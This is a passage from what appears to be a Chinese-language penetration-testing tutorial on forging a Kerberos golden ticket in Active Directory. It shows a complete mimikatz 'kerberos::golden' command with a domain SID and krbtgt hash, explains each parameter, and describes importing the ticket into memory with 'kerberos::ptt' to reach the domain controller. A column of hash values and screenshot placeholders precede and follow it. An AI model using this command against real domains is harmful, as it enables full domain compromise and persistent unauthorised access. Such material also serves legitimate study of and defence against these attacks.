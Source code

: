 ```sh
    20  2230919d6c19fdc4794a4d4cbf08cbcc
    21  f5e434234d81d0ba2362f17a8b4a61a0
    22  f5e434234d81d0ba2362f17a8b4a61a0
    23  4cf7197a9331618814144057e85b32b6
    24  ada6252d89f49e2cc822fb2545c8a4ac
    25  ada6252d89f49e2cc822fb2545c8a4ac
    26  55c19bbc0da0e9ae00a609c755da8ef5
    27  9df3396f69d865ef7b7fabdd30e5c225
    28  b8685ccf3967652956f90dd8c912dd9f
    29  534307dab20bfd1901a972ed1196c351

```

利用 mimikatz 生成金票生成.kirbi 文件并保存：

```
mimikatz.exe "kerberos::golden /admin:new_user_gold /domain:ghost.com /sid:S-1-5-21-1238213221-2393825874-2881136966-502 /krbtgt:a5269d41b184a97adc9b991f2ee21f12 /ticket:ticket.kirbi" exit

/admin：伪造的用户名
/domain：域名称
/sid：SID 值，注意是去掉最后一个-后面的值
/krbtgt：krbtgt 的 HASH 值
/ticket：生成的票据名称 
```

![image-20220318200338986](README/image-20220318200338986.png)

登录域内普通用户，通过 mimikatz 中的 kerberos::ptt 功能将ticket.kirbi 导入内存中。

导入票据之前访问域控:

![image-20220318200449833](README/image-20220318200449833.png)
